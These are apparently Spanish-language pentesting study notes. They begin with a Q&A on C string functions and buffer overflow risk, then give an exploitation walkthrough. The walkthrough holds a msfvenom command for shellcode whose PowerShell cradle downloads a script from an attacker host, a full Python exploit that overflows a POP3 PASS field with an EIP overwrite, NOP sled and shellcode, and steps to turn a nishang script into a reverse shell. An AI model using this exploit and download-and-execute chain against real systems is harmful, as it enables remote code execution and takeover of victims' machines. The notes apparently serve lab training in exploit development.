    1. **fgets()**: Esta función se utiliza para leer una línea de texto de un flujo de entrada (como un archivo o la entrada estándar) y almacenarla en un buffer. La función **`fgets()`** toma tres argumentos: el buffer donde se almacenará la línea, el tamaño máximo del buffer y el flujo de entrada desde el que se leerá la línea. Es útil para leer líneas de texto completas y es más seguro que otras funciones de entrada como **`gets()`** debido a su capacidad para especificar un tamaño máximo.
    2. **memcpy()**: La función **`memcpy()`** se utiliza para copiar una cantidad específica de bytes desde una ubicación de memoria de origen a una ubicación de memoria de destino. Puedes usar esta función para copiar datos en bloques de memoria, como cadenas de caracteres o estructuras, en lugar de copiarlos byte a byte. La función toma tres argumentos: el destino, la fuente y el número de bytes a copiar.
    3. **sprintf()**: **`sprintf()`** es una función que se utiliza para formatear y almacenar una cadena de caracteres en un buffer. Es similar a **`printf()`**, pero en lugar de imprimir la cadena en la salida estándar, la almacena en un buffer proporcionado. Esto es útil cuando necesitas construir una cadena de caracteres con formato y luego manipularla o escribirla en algún lugar.
    4. **strncpy()**: **`strncpy()`** es una función que copia una cantidad especificada de caracteres desde una cadena de origen a una cadena de destino. A diferencia de **`memcpy()`**, **`strncpy()`** garantiza que se copie exactamente el número de caracteres especificado y puede llenar con caracteres nulos si es necesario para alcanzar la longitud deseada.
    5. **scanf()**: **`scanf()`** es una función utilizada para leer datos de la entrada estándar o de otro flujo de entrada. Se utiliza para leer y analizar valores formateados en una o más variables. Por ejemplo, puedes usar **`scanf()`** para leer números enteros, números de punto flotante o cadenas de caracteres desde el teclado o un archivo.
    6. **strcat()**: **`strcat()`** es una función que concatena (une) dos cadenas de caracteres. Toma dos argumentos: la cadena de destino y la cadena de origen que se agregará a la cadena de destino. La función agrega la cadena de origen al final de la cadena de destino, y asegura que la cadena resultante esté terminada con un carácter nulo.
    
    Estas funciones son herramientas esenciales en la programación para trabajar con cadenas de caracteres y manejar la entrada y salida de datos de manera eficiente y segura.
    
- ¿Qué funciones son más vulnerable a BufferOverflow?
    
    Las funciones que son más vulnerables a ataques de Buffer Overflow son aquellas que manipulan cadenas de caracteres sin verificar adecuadamente los límites de los buffers en los que operan. Los ataques de Buffer Overflow ocurren cuando se escriben más datos en un buffer de los que puede contener, lo que puede sobrescribir datos adyacentes en la memoria y potencialmente permitir la ejecución de código malicioso.
    
    En el contexto de las funciones que mencionaste, algunas de ellas son más susceptibles a Buffer Overflow que otras:
    
    1. **sprintf()**: Esta función es particularmente vulnerable a Buffer Overflow si no se controla adecuadamente el tamaño del buffer de destino. Si el tamaño del buffer no es suficiente para acomodar la cadena formateada, se puede escribir más allá de los límites del buffer y causar un desbordamiento.
    2. **strcat()**: Al igual que **`sprintf()`**, **`strcat()`** puede causar Buffer Overflow si el tamaño del buffer de destino no es lo suficientemente grande para contener la cadena resultante después de la concatenación.
    3. **gets()**: Aunque no está en la lista que proporcionaste, es importante mencionar **`gets()`**, que es extremadamente vulnerable a Buffer Overflow y generalmente se debe evitar por completo. No realiza verificación de límites y puede permitir que se escriban datos más allá del tamaño del buffer.
    4. **scanf()**: **`scanf()`** puede ser vulnerable a Buffer Overflow si no se especifican correctamente los límites de lectura en el formato de entrada. Si no se proporciona una longitud máxima para la cadena a leer, puede causar desbordamiento.
    
    Por otro lado, **`fgets()`**, **`memcpy()`** y **`strncpy()`** tienen menos probabilidades de ser vulnerables a Buffer Overflow, ya que permiten especificar tamaños máximos y operan de manera más predecible en términos de límites.
    
    En general, es importante siempre verificar y controlar adecuadamente los límites de los buffers en todas las operaciones de manipulación de cadenas y entrada/salida para evitar posibles vulnerabilidades de Buffer Overflow.

# Modificación del Shellcode para controlar el comando a ejecutar

    
También es posible utilizar payloads como “**windows/exec**” para cargar directamente el comando que se desea ejecutar en la variable **CMD** del payload. Esto permite crear un nuevo shellcode que, una vez interpretado, ejecutará directamente la instrucción deseada.
    
El payload “**windows/exec**” es un payload de Metasploit que permite ejecutar un comando arbitrario en la máquina objetivo. Este payload requiere que se especifique el comando a ejecutar a través de la variable CMD en el payload. Al generar el shellcode con msfvenom, se puede utilizar el parámetro “-p windows/exec CMD=<comando>” para especificar el comando que se desea ejecutar.
    
Una vez generado el shellcode con el comando deseado, se puede utilizar la técnica de buffer overflow para sobrescribir el registro EIP y hacer que el flujo del programa entre en el shellcode. Al interpretar el shellcode, se ejecutará directamente el comando especificado en la variable CMD.
    

## Crear el shellcode con comando arbitrario

Al crear el shellcode es posible controlar el comando que se está ejecutando, para esto se usa el siguiente comando en msfvenom para generar un shellcode con un comando en .

```bash
msfvenom -p windows/exec CMD="powershell 
IEX(New-Object Net.WebClient).downloadString('http://
<IPAtacante>/PS.ps1')" --platform windows 
-a x86 -b '\x00\x0a\x0d' -f c EXITFUNC=thread

-p # Indica el tipo de payload, se ingresa el SO y 
# cómo se proporcionará la shell. El payload 
# "windows/exec" hará que se cargue el comando 
# que se especifique en la variable "CMD"

CMD= # Indica el comando que se ejecutará al cargar 
# el shellcode

--platform <OS> -a <x64/x86> # Indica la plataforma a la 
# que será insertado el payload y la arquitectura si es 
# 64 o 32 bits.

-f # Indica el formato que tomará el shellcode

-b # Indica los badchars a eliminar en el shellcode

EXITFUNC=thread # Sirve para crear un subproceso por el 
# cual se colgará la sesión con la máquina víctima.
# Sin esto, al terminar la sesión en la víctima, el 
# proceso crasheará y el servicio ya no estará disponible
```

Nota: Si se especifican muchos badchars, es mejor no especificar explícitamente el encoder para que el metasploit tome un encoder que se adapte correctamente.


Ahora este shellcode se insertará en el script:

```bash
#!/usr/bin/python3

import socket
import sys
from struct import pack

# Variables globales
ip_add = "192.168.0.104"
port = 110

before_eip = b"A"*2606
eip = pack("<L", 0x5f4c4d13)
shellcode = (b"\xd9\xc5\xd9\x74\x24\xf4\x5e\xba\x9b\x1a\x9f\xf1\x29\xc9"
b"\xb1\x44\x31\x56\x1a\x03\x56\x1a\x83\xee\xfc\xe2\x6e\xe6"
b"\x77\x73\x90\x17\x88\x14\x19\xf2\xb9\x14\x7d\x76\xe9\xa4"
b"\xf6\xda\x06\x4e\x5a\xcf\x9d\x22\x72\xe0\x16\x88\xa4\xcf"
b"\xa7\xa1\x94\x4e\x24\xb8\xc8\xb0\x15\x73\x1d\xb0\x52\x6e"
b"\xef\xe0\x0b\xe4\x5d\x15\x3f\xb0\x5d\x9e\x73\x54\xe5\x43"
b"\xc3\x57\xc4\xd5\x5f\x0e\xc6\xd4\x8c\x3a\x4f\xcf\xd1\x07"
b"\x06\x64\x21\xf3\x99\xac\x7b\xfc\x35\x91\xb3\x0f\x44\xd5"
b"\x74\xf0\x33\x2f\x87\x8d\x43\xf4\xf5\x49\xc6\xef\x5e\x19"
b"\x70\xd4\x5f\xce\xe6\x9f\x6c\xbb\x6d\xc7\x70\x3a\xa2\x73"
b"\x8c\xb7\x45\x54\x04\x83\x61\x70\x4c\x57\x08\x21\x28\x36"
b"\x35\x31\x93\xe7\x93\x39\x3e\xf3\xae\x63\x55\x02\x3d\x1e"
b"\x1b\x04\x3d\x21\x0c\x6d\x0c\xaa\xc3\xea\x91\x79\xa0\x15"
b"\x70\xa8\xdd\xbd\x2c\x39\x5c\xa0\xcf\x97\xa3\xdd\x53\x12"
b"\x5c\x1a\x4b\x57\x59\x66\xcc\x8b\x13\xf7\xb8\xab\x80\xf8"
b"\xe9\xdc\x49\x70\x74\x6f\xe5\x16\x13\xe3\x65\xc7\x92\xbe"
b"\x2d\x2f\x6a\x24\xb9\x02\x3d\xc4\x2f\x38\xa2\x7c\x90\x8c"
b"\x41\x09\xfe\x47\xec\x93\xbd\x0b\x87\x36\x2c\xa0\x7e\x97"
b"\xd4\x27\xf7\x89\x78\xd7\x96\x31\xf2\x53\x2a\xd3\x9a\xfc"
b"\xe2\x04\x0b\x77\x86\x3a\xf1\x58\x49\x8a\x3c\x95\xbb\xdd"
b"\x08\xe1\xed\x2d\x5b\x20\xc1\x7d\x8c\x12\x72\x50\xa2\xe1"
b"\x45\x8b\x6b\x06")

payload = before_eip + eip + b"\x90"*20 + shellcode

def exploit():
    # Create a socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    # Connect to the server
    s.connect((ip_add, port))

    # Receive banner
    banner = s.recv(1024)

    # Send data
    s.send(b"USER bof" + b"\r\n")
    s.send(b"PASS " + payload + b"\r\n")
    s.close()

if __name__ == '__main__':
    exploit()
```

El comando de powershell que se está ejecutando lo que hará es cargar el recurso “PS.ps1” de la máquina del atacante. El contenido de este recurso será un script de nishang obtenido del siguiente proyecto de github: [https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)

Este script se copiará en la máquina local y se cambiará su nombre a “PS.ps1”

```bash
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
mv Invoke-PowershellTcp.ps1 PS.ps1
```

Ahora se agregará la siguiente línea al final del script, esto para que una vez interpretado todo el script ejecute la instrucción:

```bash
Invoke-PowerShellTcp -Reverse -IPAddress <IPAtacante> -Port <Puerto>
```


Una vez hecho esto, ahora el atacante al compartir un servidor con python3 y estando en escucha por el puerto 443, al ejecutar el script, la máquina víctima ejecutará el shellcode el cual indica que se debe hacer una petición al recurso PS.ps1 en la máquina del atacante y cuando cargue este recurso, enviará una reverse shell:


